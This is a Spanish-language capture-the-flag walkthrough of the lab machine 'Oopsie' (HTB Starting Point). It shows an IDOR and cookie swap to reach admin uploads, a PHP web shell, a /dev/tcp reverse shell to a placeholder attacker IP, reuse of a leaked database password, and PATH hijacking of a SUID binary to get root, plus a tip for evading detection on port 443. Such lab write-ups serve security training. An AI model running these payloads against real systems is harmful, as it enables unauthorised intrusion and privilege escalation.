







# Máquina Oopsie

#### OS: Linux
#### Tier: Starting Point
#### Release date: 25/10/2021
#### IP de ejemplo: 10.129.115.129

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 10.129.115.129
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
dos puertos abiertos: 22/SSH y 80/HTTP
Vamos a lanzar los scripts básicos de nmap con el argumento -sC y tratemos de detectar la versión para cada servicio con -sV 
```
nmap -sCV -p22,80 -T4 10.129.115.129
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
También lancemos un whatweb sobre el servidor http para detectar tecnologías en uso 
```
❯ whatweb 10.129.115.129
http://10.129.115.129 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[admin@megacorp.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.115.129], Script, Title[Welcome]
```
tenemos un posible usuario: `admin@megacorp.com`. Tengámoslo en cuenta.

Pasamos a investigar la interfaz web



parece una web de coches eléctricos, nada llama la atención, es una página estática, al pulsar en `Services`, `About` o `Contact` nos lleva a `http://10.129.115.129/#`, es decir, a la misma página.

Investigando el código fuente con Ctrl + U vemos el siguiente código, haciendo referencia a una ruta:

```
<script src="/cdn-cgi/login/script.js"></script>
```

si le quitamos el script de javascript y lo ponemos en el navegador accedemos a un panel de login no visible desde la interfaz web



no tenemos credenciales válidas, podemos probar el usuario admin@megacorp.com y una SQLi de contraseña, pero no es vulnerable a SQL Injection. 
Sin embargo, podemos entrar como visitante, así que hagamos eso

`Login as Guest`



la web redirige a `http://10.129.115.129/cdn-cgi/login/admin.php`, y muestra una página de gestión de reparaciones. Esta vez las páginas superiores si son interactivas.

la primera que aparece, Account, muestra un accessid, name e email. 


las dos siguientes muestran datos generales, que podemos modificar por el paráetro ?content=branding&brandId=2 en la página de branding y con ?content=clients&orgId=2 en la parte de Clients. Esto de por si no es una vulnerabilidad (aunque tampoco es óptimo), a menos que muestre datos sensibles de clientes.

la página de ?content=uploads es interesante, muestra que debemos tener más privilegios para acceder a ella. Si lo logramos podríamos tratar de subir un archivo php malicioso (dado que la página está escrita en php) y ejecutar comandos.


seguimos investigando la página: si inspeccionamos las cookies con F12 -> Application -> Cookies podemos ver que el accessid visto previamente en `?content=accounts&id=2` coincide con nuestra cookie `user`. 



cambiar la cookie `role` de guest a admin no parece surtir efecto, sin embargo podemos pensar que si logramos ver el accessid (la otra cookie) del usuario admin, que sabemos que existe, podremos acceder a la web como administrador.

si miramos detenidamente la URL vemos que es así: 

`/cdn-cgi/login/admin.php?content=accounts&id=2`

Vamos a ver si se aplica un `IDOR` (Insecure Direct Object Reference) y al modificar el id a uno distinto de 2 (el de guest) podemos ver otros datos



y efectivamente, podemos ver que el Access ID del usuario admin es `34322`.

modifiquemos nuestra cookie `user` con el valor `34322` y tratemos de acceder al campo de uploads, previamente bloqueado



ya tenemos acceso a la interfaz de subida de archivos, elevando efectivamente nuestro privilegio dentro de la web


## Initial Infiltration

podemos probar a subir una shell.php sencilla, con el fin de acceder a ella y lograr `RCE` (Remote Command Execution)

```
<?php system($_GET["w1s4"]); ?>
```
usaremos el parámetro w1s4 para ejecutar comandos. Guardamos el archivo como shell.php y lo subimos. En el campo de `Brand Name` introduciremos cualquier string (e.g: test)
```
The file shell.php has been uploaded.
```
parece que se sube exitosamente

trataremos de acceder a él a través del directorio uploads en la raíz de la web: `http://10.129.115.129/uploads/shell.php?w1s4=id`

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

tenemos ejecución remota de comandos, genial. Vamos a establecer una reverse shell con la típica `/dev/tcp`, URL encodeada para evitar problemas con la shell del navegador (URL Encodings mal ejecutados pueden romper la sintaxis de la shell)
```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FTU_IP%2F443%200%3E%261%27
```
sacamos nuestra ip de la interfaz `tun0`, con el comando `ip a show tun0`, y lo añadimos en la parte de "TU_IP". Por último establecemos un listener con nc y damos al enter en el comando de la shell.php

>nota: puedes cambiar el puerto si así lo deseas, en este caso es el 443, para simular una conexión a una web legítima y evitar detecciones, es una buena práctica de cara a máquinas más complejas o con reglas de firewall

```
❯ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.115.129 47930
bash: cannot set terminal process group (1433): Inappropriate ioctl for device
bash: no job control in this shell
www-data@oopsie:/var/www/html/uploads$
```

## Lateral movement (www-data -> robert)

entramos en la máquina como el usuario de bajos privilegios www-data. Vamos a estabilizar la shell, pues de no hacerlo al pulsar Ctrl + c perderíamos la reverse shell, además de no poder limpiar la terminal con Ctrl + l. Para ello ejecutamos un tratamiento de la tty:

```
script /dev/null -c bash
Ctrl + z
❯ stty raw -echo;fg
reset xterm
Enter
```
una vez hecho esto deberías de poder hacer Ctrl + c sin problemas. Para poder limpiar la pantalla haremos
```
export TERM=xterm
```

ahora sí, con una shell totalmente interactiva vamos a ver los usuarios en `/home`
```
www-data@oopsie:/var/www/html/uploads$ ls -l /home

drwxr-xr-x 3 robert robert 4096 Jul 28  2021 robert
```
vemos un único usuario, `robert`. 
Vamos a intentar buscar credenciales de alguna base de datos, para ello vamos un directorio hacia atrás y vemos la raíz de la web (/var/www/html)
```
www-data@oopsie:/var/www/html$ ls
cdn-cgi  css  fonts  images  index.php	js  themes  uploads
```
entremos a cdn-cgi y veamos su contenido, pues es donde estaba el login. Justamente, entramos a `/cdn-cgi/login`
```
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls -l
total 20
-rw-r--r-- 1 root root 6361 Apr 15  2021 admin.php
-rw-r--r-- 1 root root   80 Jan 24  2020 db.php
-rw-r--r-- 1 root root 5349 Apr 15  2021 index.php
-rw-r--r-- 1 root root    0 Jan 24  2020 script.js
```
ese archivo db.php tiene buena pinta, vamos a leerlo
```
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php 
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
vemos una contraseña de la base de datos, `M3g4C0rpUs3r!`, y el usuario `robert`. Vamos a ver si hay reutilización de credenciales migrando a robert con esa contraseña 
```
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: 
robert@oopsie:/var/www/html/cdn-cgi/login$ 
```
efectivamente, somos robert. Podemos ver la user.txt en `/home/robert/user.txt`


## Privilege Escalation

ahora que estamos como robert, vamos a escalar privilegios. Empezamos listando permisos a nivel de sudoers:
```
robert@oopsie:~$ sudo -l
[sudo] password for robert: 
Sorry, user robert may not run sudo on oopsie.
```
parece que no tenemos ninguno, veamos si estamos en algún grupo interesante
```
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
el grupo bugtracker no es común, parece ser algo custom. Vamos a ver qué archivos o carpetas pertenecen a ese grupo
```
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```
parece que sí hay un archivo, veamos qué tipo es
```
robert@oopsie:~$ file /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```
es un ejecutable para Linux x86-64. Probemos a ejecutarlo a ver qué hace
```
robert@oopsie:~$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 
```
interesante, pongamos 1, por ejemplo
```
Provide Bug ID: 1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```
parece justo eso, una lista de bugs. Probemos con un ID distinto, como 99

```
Provide Bug ID: 99
---------------

cat: /root/reports/99: No such file or directory
```
interesante: está leyendo con `cat` un archivo bajo la ruta `/root/reports/ID`. Cuando el script llama a cat lo hace de manera relativa (cat), no absoluta (/bin/cat), lo que abre la posibilidad de crear un ejecutable llamado cat que haga lo que le digamos, y puesto que se ejecuta con permisos de root, el archivo cat que creemos se ejecutará bajo ese usuario.

Cuando un script llama de forma relativa a un ejecutable, recorre el PATH de izquierda a derecha, y mira en qué ruta aparece el ejecutable que busca, en este caso cat. El PATH se puede ver en cualquier sistema Linux con el comando
```
echo $PATH
```
y el de esta máquina es el siguiente:
```
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
así pues, cuando /usr/bin/bugtracker busca cat, lo busca primero en /usr/local/sbin/cat, luego /usr/local/bin/cat, y así sucesivamente hasta que lo encuentra en /bin/cat, como podemos comprobar con `which cat`. Así pues, si nosotros creamos un cat malicioso y lo ponemos al inicio del PATH (algo que podemos hacer dado que el PATH se puede modificar por nuestro usuario). 

Para iniciar la explotación, creamos un archivo cat en /tmp/cat con este contenido:
```
#!/bin/bash
chmod 4755 /bin/bash && echo "--- EXPLOIT SUCCEEDED ---"
```
esto le asigna el bit SUID a la bash, lo cual permite ejecutarse como el propietario con bash -p, y dado que este es root (-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash), la bash pasaría a ejecutarse como root. Damos permiso de ejecución al archivo con chmod +x /tmp/cat, y modificamos el PATH para que /tmp quede al inicio del todo:
```
export PATH=/tmp:$PATH
```
verificamos que el PATH fue modicicado:
```
robert@oopsie:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Y ahora vamos a ejecutar /usr/bin/bugtracker de nuevo
```
robert@oopsie:~$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 55
---------------

--- EXPLOIT SUCCEEDED ---
```
el mensaje de abajo viene de nuestro cat malicioso, y verifica su ejecución. Veamos el estado de /bin/bash
```
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
efectivamente. La bash es ahora SUID. Este ataque se llama `PATH Hijacking`.

Ahora consigamos la shell como root:
```
robert@oopsie:~$ bash -p
bash-4.4# whoami
root
bash-4.4#
```
podemos encontrar root.txt en /root/root.txt
> recuerda leer la flag con /bin/cat, ya que de usar un cat normal se hará referencia a /tmp/cat.
